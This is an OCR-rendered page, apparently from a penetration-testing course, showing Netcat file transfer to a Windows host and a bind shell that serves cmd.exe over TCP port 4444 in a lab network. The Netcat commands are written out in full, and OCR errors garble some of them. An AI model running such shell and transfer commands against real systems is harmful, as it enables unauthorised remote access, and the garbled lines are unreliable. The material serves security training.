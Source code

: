#### Transferring Files with Netcat

```
C:\Users\of fsec> nc - nlvp 4444 > incoming.exe
listeni ng on [any] 4444 ...
```

On the Kali system, we will push the wget.exe file to the Windows machine through TCP port 4444:

```
kali@kali:-$ locate wget . exe
/usr/share/windows-resources/binaries/wget.exe
kali@kali:-$ nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
(UNKNOWN) (10.11.0.22) 4444 (?} open
```

The connection is received by Netcat on the Windows machine as shown below:

```
C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any) 4444
connect to [10.11.0.22] from <UNKNOWN) [10.11.0.4] 43459
^C
C:\Users\offsec>
```

Notice that we have not received any feedback from Netcat about our file upload progress. In this
case, since the file we are uploading is small, we can just wait a few seconds, then check whether
the file has been fully uploaded to the Windows machine by attempting to run it:

```
C: \Users\offsec> incoming.exe -h
GNU Wget 1.9.1, a non-interactive network retriever.
Usage: incoming (OPTION) ... (URL] ••.
```

#### Remote Administration with Netcat

**Netcat Bind Shell Scenario**

Bob will check his loca l IP address, then run Netcat w ith the -e option to execute cmd.exe once a
connection is made to the listening port:

```
C:\Users\offsec> ipconfig
Wi ndows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix
IPv4 Address. . . . . . . . . . . : 10.11.0.22
Subnet Mask . . . . . . . . . . . : 255.255.0.0
Default Gateway . . . . . . . . . : 10.11.0.1

C:\Users\offsec> nc -nlvp 4444 -e cmd.exe
listening on [any] 4444 .••
```

```
kali @kali:~$ ip address show eth0 | grep inet
	inet 10.11.0.4/16 brd 10.11.255.255 scope global dynamic eth0

kali@kali:~$ nc -nv 18 ,11,8,22 4444
(UNKNOWN) [10.11.0.22) 4444 (?) open
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec> ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix
IPv4 Address. . . . . . . . . . . : 10.11.0.22
```